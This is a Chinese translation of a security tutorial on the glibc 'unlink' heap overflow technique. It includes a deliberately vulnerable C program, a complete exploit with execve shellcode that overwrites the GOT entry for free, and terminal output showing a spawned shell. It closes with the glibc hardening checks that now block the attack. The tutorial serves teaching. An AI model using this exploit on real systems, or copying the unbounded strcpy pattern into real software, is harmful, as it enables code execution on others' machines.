


CSysSec注： 本系列文章译自安全自由工作者Sploitfun的漏洞利用系列博客，从经典栈缓冲区漏洞利用堆漏洞利用，循序渐进，是初学者不可多得的好材料，本系列所有文章涉及的源码可以在这里找到。CSysSec计划在原基础上不断添加相关漏洞利用技术以及相应的Mitigation方法，欢迎推荐或自荐文章。 
转载本文请务必注明，文章出处：《[Linux(X86)漏洞利用系列-Unlink堆溢出)](http://www.csyssec.org/20170104/heapoverflow-unlink)》与作者信息：CSysSec出品  

## 写在最前  

chunk是指具体进行内存分配的区域，目前的默认大小是4M。   

## 阅读基础

[深入理解glibc malloc](../Linux%20系统底层知识/深入理解glibc%20malloc.md)  

这篇文章，我们会学习到如何利用unlink技术成功利用堆缓冲区溢出。在深入了解unlink技术之前，我们先来看看一个漏洞程序： 

``` c
/* 
 Heap overflow vulnerable program. 
 */
#include <stdlib.h>
#include <string.h>
int main( int argc, char * argv[] )
{
        char * first, * second;
/*[1]*/ first = malloc( 666 );
/*[2]*/ second = malloc( 12 );
        if(argc!=1)
/*[3]*/         strcpy( first, argv[1] );
/*[4]*/ free( first );
/*[5]*/ free( second );
/*[6]*/ return( 0 );
}
```
上面漏洞程序的第三行会导致堆缓冲区溢出。用户输入的’argv[1]’被拷贝到’first’堆缓冲区，而没有设定任何大小限制。因此，当用户的输入大于666字节时，边界就会覆盖下一个chunk的chunk头。这种溢出进而会导致任意代码执行。  

下面是漏洞程序堆内存的形象图:  

   


Unlink: 其主要思想是欺骗’glibc malloc’来达到解开(unlink) ‘second’ chunk的目的。当解开(unlinking) 时，free函数的GOT表项就会被shellcode的地址覆盖。 成功覆盖之后，在漏洞代码中第五行当free被调用时，shellcode就会被执行。还不清楚？没问题，我们先来看看当fre执行的时候’glibc malloc’都做了些什么。 

如果没有攻击中的影响，第[4]行中的[free](https://github.com/sploitfun/lsploits/blob/master/hof/unlink/malloc_free_snip.c) 会做下面这些事情：  

* 对于 [没有被映射的chunks](https://github.com/sploitfun/lsploits/blob/master/hof/unlink/malloc_free_snip.c#L10)  来说，向后合并(consolidate banckward)或者向前合并(consolidate forward)。  
* 向后合并：
	- [查找前一个chunk是否空闲](https://github.com/sploitfun/lsploits/blob/master/hof/unlink/malloc_free_snip.c#L17) - 如果当前被释放的chunk的PREV_INUSE(P)位没有设置，则shuoming 说明前一个chunk是空闲的。在我们的例子中，由于“first”的PREV_INUSE位已经设置，说明前一个chunk已经被分配了，默认情况下，堆内存的第一个chunk前一个chunk被分配(尽管它不存在)。
	- [如果空闲](https://github.com/sploitfun/lsploits/blob/master/hof/unlink/malloc_free_snip.c#L18) ，则合并 比如，从binlist上unlink(移除)前一个chunk,然后将前一个chunk的大小加到当前大小中并修改chunk指针指向前一个chunk。在我们的例子中，前一个chunk已经被分配了，因此unlink没有执行。从而当前被释放的chunk ‘first’不能被向后合并。
* 向前合并:
	- [查找下一个chunk是否空闲](https://github.com/sploitfun/lsploits/blob/master/hof/unlink/malloc_free_snip.c#L26) - 如果下下个chunk(从当前被释放的chunk算起)的PREV_INUSE(P)位没有设置，则shuoming 说明下前一个chunk是空闲的。为了遍历到下下个chunk，将当前被释放chunk的大小加入到chunk指针，然后将下一个chunk的大小加入到下一个chunk指针。在我们的例子中，当前被释放chunk的下下个指针是top chunk，并且它的PREV_INUSE位已经设置，说明下一个chunk ‘second’不是空闲的。
	- [如果空闲](https://github.com/sploitfun/lsploits/blob/master/hof/unlink/malloc_free_snip.c#L30) ，则合并 比如，从binlist上unlink(移除)前一个chunk,然后将下一个chunk的大小加到当前大小中。在我们的例子中，下一个chunk已经被分配了，因此unlink没有执行。从而当前被释放的chunk ‘first’不能被向前合并。
* 现在，[将被合并的chunk添加到未排序的bin中](https://github.com/sploitfun/lsploits/blob/master/hof/unlink/malloc_free_snip.c#L41) 。在我们的例子中，合并未能成功执行，所以只要将’first’ chunk添加到未排序的bin中。 
 
现在我们可以说攻击者在第[3]行按照以下方式覆盖了’second’ chunk的chunk头部：  

* prev_size = 偶数，因此PREV_INUSE没有被设置
* size = -4
* fd = free地址 -12
* bk = shellcode地址

如果受到攻击者的影响，第[4]行中的free会做以下事情：  

* 对于没有被映射的chunks来说，向后合并(consolidate banckward)或者向前合并(consolidate forward)。
* 向后合并：
	- 查找前一个chunk是否空闲- 如果当前被释放的chunk的PREV_INUSE(P)位没有设置，则shuoming 说明前一个chunk是空闲的。在我们的例子中，由于“first”的PREV_INUSE位已经设置，说明前一个chunk已经被分配了，默认情况下，堆内存的第一个chunk前一个chunk被分配(尽管它不存在)。
	- 如果空闲，则合并 比如，从binlist上unlink(移除)前一个chunk,然后将前一个chunk的大小加到当前大小中并修改chunk指针指向前一个chunk。在我们的例子中，前一个chunk已经被分配了，因此unlink没有执行。从而当前被释放的chunk ‘first’不能被向后合并。
* 向前合并:
	- 查找下一个chunk是否空闲- 如果下下个chunk(从当前被释放的chunk算起)的PREV_INUSE(P)位没有设置，则说明下前一个chunk是空闲的。为了遍历到下下个chunk，将当前被释放chunk的大小加入到chunk指针，然后将下一个chunk的大小加入到下一个chunk指针。在我们的例子中，当前被释放chunk的下下个指针不是(NOT)top chunk。由于攻击者已经用-4覆盖了’second’ chunk的大小，’second’ chunk的下下个chunk应该在-4偏移处。因此，现在’glibc malloc’将’second’ chunk的prev_inuse当做下下个chunk的大小域。由于攻击者已经用一个偶数(PREV_INUSE(P)位被复位)覆盖了prev_size，这样就欺骗了’glibc malloc’ 让其相信’second’ chunk是释放的。
	- 如果空闲，则合并] 比如，从binlist上unlink(移除)前一个chunk,然后将下一个chunk的大小加到当前大小中。在我们的例子中，下一个chunk是空闲的，因此’second’ chunk将按以下方式[unlink](https://github.com/sploitfun/lsploits/blob/master/hof/unlink/malloc_unlink_snip.c)。
		1. 将'second' chunk的fd和bk值相应的拷贝到[FD](https://github.com/sploitfun/lsploits/blob/master/hof/unlink/malloc_unlink_snip.c#L3)与[BK](https://github.com/sploitfun/lsploits/blob/master/hof/unlink/malloc_unlink_snip.c#L4)变量。在我们例子中，FD =free地址-12， BK=shellcode地址 (作为堆溢出的一部分，攻击者将shellcode放入'first'堆缓冲区内部）。
		2. [BK的值被拷贝到FD的12偏移处](https://github.com/sploitfun/lsploits/blob/master/hof/unlink/malloc_unlink_snip.c#L5)。在我们的例子中，将12字节加入到FD中，然后指向free的GOT表项。这样一来，GOT表项就被shellcode的地址覆盖了。太棒了！现在，任何时候只要free被调用，就会执行shellcode! 因此，漏洞程序中的第五行就会导致shellcode的执行。  
* 现在，将被合并的chunk添加到未排序的bin中。

被攻击者修改过的用户输入，漏洞程序的堆内存的形象图如下：  
  

理解了unlink技术之后，我们就可以写漏洞利用程序了。  

``` c
/* Program to exploit 'vuln' using unlink technique.
 */
#include <string.h>
#include <unistd.h>
#define FUNCTION_POINTER ( 0x0804978c )         //Address of GOT entry for free function obtained using "objdump -R vuln".
#define CODE_ADDRESS ( 0x0804a008 + 0x10 )      //Address of variable 'first' in vuln executable. 
#define VULNERABLE "./vuln"
#define DUMMY 0xdefaced
#define PREV_INUSE 0x1
char shellcode[] =
        /* Jump instruction to jump past 10 bytes. ppssssffff - Of which ffff would be overwritten by unlink function
        (by statement BK->fd = FD). Hence if no jump exists shell code would get corrupted by unlink function. 
        Therefore store the actual shellcode 12 bytes past the beginning of buffer 'first'*/
        "\xeb\x0assppppffff"
        "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";
int main( void )
{
        char * p;
        char argv1[ 680 + 1 ];
        char * argv[] = { VULNERABLE, argv1, NULL };
        p = argv1;
        /* the fd field of the first chunk */
        *( (void **)p ) = (void *)( DUMMY );
        p += 4;
        /* the bk field of the first chunk */
        *( (void **)p ) = (void *)( DUMMY );
        p += 4;
        /* the fd_nextsize field of the first chunk */
        *( (void **)p ) = (void *)( DUMMY );
        p += 4;
        /* the bk_nextsize field of the first chunk */
        *( (void **)p ) = (void *)( DUMMY );
        p += 4;
        /* Copy the shellcode */
        memcpy( p, shellcode, strlen(shellcode) );
        p += strlen( shellcode );
        /* Padding- 16 bytes for prev_size,size,fd and bk of second chunk. 16 bytes for fd,bk,fd_nextsize,bk_nextsize 
        of first chunk */
        memset( p, 'B', (680 - 4*4) - (4*4 + strlen(shellcode)) );
        p += ( 680 - 4*4 ) - ( 4*4 + strlen(shellcode) );
        /* the prev_size field of the second chunk. Just make sure its an even number ie) its prev_inuse bit is unset */
        *( (size_t *)p ) = (size_t)( DUMMY & ~PREV_INUSE );
        p += 4;
        /* the size field of the second chunk. By setting size to -4, we trick glibc malloc to unlink second chunk.*/
        *( (size_t *)p ) = (size_t)( -4 );
        p += 4;
        /* the fd field of the second chunk. It should point to free - 12. -12 is required since unlink function
        would do + 12 (FD->bk). This helps to overwrite the GOT entry of free with the address we have overwritten in 
        second chunk's bk field (see below) */
        *( (void **)p ) = (void *)( FUNCTION_POINTER - 12 );
        p += 4;
        /* the bk field of the second chunk. It should point to shell code address.*/
        *( (void **)p ) = (void *)( CODE_ADDRESS );
        p += 4;
        /* the terminating NUL character */
        *p = '';
        /* the execution of the vulnerable program */
        execve( argv[0], argv, NULL );
        return( -1 );
}
```
执行上面的漏洞利用程序，可以触发一个新的shell!  

```
sploitfun@sploitfun-VirtualBox:~/lsploits/hof/unlink$ gcc -g -z norelro -z execstack -o vuln vuln.c -Wl,--rpath=/home/sploitfun/glibc/glibc-inst2.20/lib -Wl,--dynamic-linker=/home/sploitfun/glibc/glibc-inst2.20/lib/ld-linux.so.2
sploitfun@sploitfun-VirtualBox:~/lsploits/hof/unlink$ gcc -g -o exp exp.c
sploitfun@sploitfun-VirtualBox:~/lsploits/hof/unlink$ ./exp 
$ ls
cmd  exp  exp.c  vuln  vuln.c
$ exit
sploitfun@sploitfun-VirtualBox:~/lsploits/hof/unlink$
```
保护: 现如今，’glibc malloc’经过许多年的发展已经被强化了(hardened)，unlink已经技术无法成功执行。为了防御unlink技术带来的堆溢出，’glibc malloc’加入了下面的检查：  

* [两次释放(Double Free)](https://github.com/sploitfun/lsploits/blob/master/glibc/malloc/malloc.c#L3947) : 释放已经处于空闲状态的chunk是禁止的。当攻击者试图将’second’ chunk的大小覆盖为-4, 其PREV_INUSE位被复位，意味着’first’已经处于空闲状态。这时’glibc malloc’会抛出一个两次释放错误。  
``` c
if (__glibc_unlikely (!prev_inuse(nextchunk)))
    {
      errstr = "double free or corruption (!prev)";
      goto errout;
    }
```
* [无效的next size](https://github.com/sploitfun/lsploits/blob/master/glibc/malloc/malloc.c#L3954) : 下一个chunk的大小介于8字节与arena的总系统内存之间。当攻击者试图将’second’ chunk的大小覆盖为-4,’glibc malloc’会抛出一个无效的next size错误 
``` c
if (__builtin_expect (nextchunk->size <= 2 * SIZE_SZ, 0)
        || __builtin_expect (nextsize >= av->system_mem, 0))
      {
        errstr = "free(): invalid next size (normal)";
        goto errout;
      }
```
* [损坏的双链表](https://github.com/sploitfun/lsploits/blob/master/glibc/malloc/malloc.c#L1414) ： 前一个chunk的fd和下一个chunk的bk必须指向当前被unlinked的chunk。当攻击者分别将fd和bk覆盖为-12与shellcode地址， free和(shellcode地址+8)没有指向当前被unlinked的chunk(‘second’)。 ‘glibc malloc’会抛出一个损坏的双链表错误.  
```
if (__builtin_expect (FD->bk != P || BK->fd != P, 0))                     
      malloc_printerr (check_action, "corrupted double-linked list", P);
```
注意：为了更好的演示，漏洞程序在编译的时候没有添加以下保护机制：  

[ASLR](https://en.wikipedia.org/wiki/Address_space_layout_randomization)  
[NX](https://en.wikipedia.org/wiki/NX_bit)  
[RELRO(ReLocation Read-Only)](https://isisblogs.poly.edu/2011/06/01/relro-relocation-read-only/) 

## 参考

[vudo malloc tricks](http://phrack.org/issues/57/8.html) 